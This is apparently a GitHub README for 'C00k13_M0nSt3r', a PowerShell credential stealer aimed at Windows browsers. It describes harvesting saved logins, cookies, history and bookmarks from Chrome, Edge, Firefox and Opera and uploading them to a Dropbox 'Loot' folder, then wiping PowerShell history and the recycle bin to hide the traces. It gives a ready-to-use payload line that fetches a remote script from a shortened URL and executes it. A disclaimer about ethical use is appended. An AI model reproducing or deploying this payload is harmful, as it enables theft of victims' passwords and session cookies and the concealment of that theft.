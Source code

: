 # C00k13_M0nSt3r

## Overview
This script is designed to extract saved logins, cookies, and browser data from Google Chrome, Microsoft Edge, Mozilla Firefox, and Opera browsers. The extracted data is then uploaded to Dropbox in a new folder named "Loot," followed by a subfolder named after the username associated with the data.

## Features
- Extracts saved logins and cookies from Google Chrome.
- Retrieves saved logins and cookies from Mozilla Firefox.
- Captures browser history and bookmarks from Chrome, Edge, Firefox, and Opera.
- Uploads the extracted data to Dropbox for remote access.

## Usage
1. Update the Dropbox token in the script by replacing `'INSERT-YOUR-DROPBOX-TOKEN'` with your actual Dropbox token.
2. Run the script in PowerShell using the provided payload: $db = 'INSERT-YOUR-DROPBOX-TOKEN'; irm tinyurl.com/3tm7msr7 | iex

## Supported Platforms
- Windows 10/11

## Instructions
1. The script grabs Google Chrome data (Login Data, Cookies, and Local State) and compresses it into a zip file.
2. Firefox data (cookies, saved logins) is searched for and compressed into a separate zip file.
3. Browser history and bookmarks are collected from Chrome, Edge, Firefox, and Opera and saved in a file named `--BrowserData.txt`.
4. All extracted data is uploaded to Dropbox using the provided Dropbox token.

## Credits
- Browser history and bookmarks extraction code adapted from [I-Am-Jakoby's browserData.ps1 script](https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/blob/main/Payloads/Flip-BrowserData/browserData.ps1).

## Version
2.0

## Author
Created By: 0D1NSS0N

## Cleanup
After data exfiltration, the script performs cleanup by deleting temporary files, removing run dialog and PowerShell history, and emptying the recycling bin.

## Disclaimer
Use this script responsibly and only for ethical purposes. Unauthorized access and data exfiltration are against the law.

**Note:** Please be cautious while handling sensitive information and respect privacy and legal regulations.

